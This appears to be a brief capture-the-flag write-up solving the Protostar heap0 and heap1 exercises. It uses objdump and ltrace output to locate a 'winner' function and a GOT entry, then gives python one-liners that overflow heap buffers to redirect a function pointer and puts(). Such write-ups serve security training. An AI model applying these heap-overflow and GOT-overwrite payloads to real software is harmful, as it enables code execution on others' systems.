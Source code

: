 ##Heap0
* `objdump -t ./heap0 | grep winner`
```
08048464 g     F .text  00000014              winner
08048478 g     F .text  00000014              nowinner
```
* ./heap0 `python -c "print 'A'*72+'\x64\x84\x04\x08'"`

##Heap1
* `objdump -t ./heap1 | grep winner`
`08048494 g     F .text 00000025              winner`
* `objdump -TR ./heap1 | grep winner`
```
00000000      DF *UND*  00000000  GLIBC_2.0   puts
08049774 R_386_JUMP_SLOT   puts
```
* we use `ltrace` to know about the memory process
```
user@protostar:/opt/protostar/bin$ ltrace ./heap1 `python -c "print 'A'*4"` `python -c "print 'B'*4"`
__libc_start_main(0x80484b9, 3, 0xbffff884, 0x8048580, 0x8048570 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "AAAA")                       = 0x0804a018
strcpy(0x0804a038, "BBBB")                       = 0x0804a038
puts("and that's a wrap folks!"and that's a wrap folks!
)                 = 25
+++ exited (status 25) +++

```
* so what we need to do is to overwrite the `puts` to the `winner` address
* ./heap1 `python -c "print 'A'*20+'\x74\x97\x04\x08'"` `python -c "print '\x94\x84\x04\x08'"`